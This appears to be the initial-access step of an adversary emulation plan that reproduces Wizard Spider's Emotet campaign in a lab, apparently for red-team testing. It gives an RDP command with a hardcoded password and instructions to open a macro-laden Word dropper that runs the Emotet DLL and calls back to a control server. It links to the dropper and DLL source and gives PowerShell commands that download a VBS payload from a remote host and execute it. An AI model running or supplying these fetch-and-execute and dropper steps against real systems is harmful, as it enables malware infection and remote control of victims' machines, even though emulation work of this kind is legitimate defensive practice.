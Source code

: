 Open a new terminal tab (ctrl-shift-T); double click the terminal tab and rename it to "RDP to Dorothy"

RDP into Dorothy / 10.0.0.7 as user Judy:

```bash
xfreerdp +clipboard /u:oz\\judy /p:"Passw0rd!" /v:10.0.0.7
```

1. Open outlook if its not already open, log in to Office account if not already logged in

2. Open the ChristmasCard.docm document on the desktop; enable macros when prompted.

3. You should see a terminal flash; wait for it to execute the Emotet DLL.

4. Go back to your control server tab; you should have a new callback.

5. Take a screenshot of your new session, and paste in the vendor slack channel.

```
# Emotet has sent Microsoft Word documents with embedded macros that will invoke scripts to download additional payloads. [6][13][2][8][12]
```

[Source Code - Dropper Word Document](../../Resources/Emotet_Dropper)

[Source Code - Emotet DLL](../../Resources/Emotet)

<br>

`For testing without MS Office; be aware that this is not identical to the Word document implementation - the process lineage and file paths change significantly with this method.`

Open PowerShell and run:

```pwsh
Invoke-WebRequest -Uri http://192.168.0.4:8080/getFile/adb.txt -OutFile $env:AppData\adb.vbs
```

```pwsh
# Wizard Spider has used HTTP for network communications.[5]

cscript.exe $env:AppData\adb.vbs
```

### :microscope: Cited Intelligence

* <https://documents.trendmicro.com/assets/white_papers/ExploringEmotetsActivities_Final.pdf>

* <https://www.symantec.com/blogs/threat-intelligence/evolution-emotet-trojan-distributor>

* <https://www.picussecurity.com/blog/the-christmas-card-you-never-wanted-a-new-wave-of-emotet-is-back-to-wreak-havoc.html>

* <https://www.carbonblack.com/2019/04/24/cb-tau-threat-intelligence-notification-emotet-utilizing-wmi-to-launch-powershell-encoded-code/>

* <https://blog.talosintelligence.com/2019/01/return-of-emotet.html>

## Step 2 - Emotet Persistence
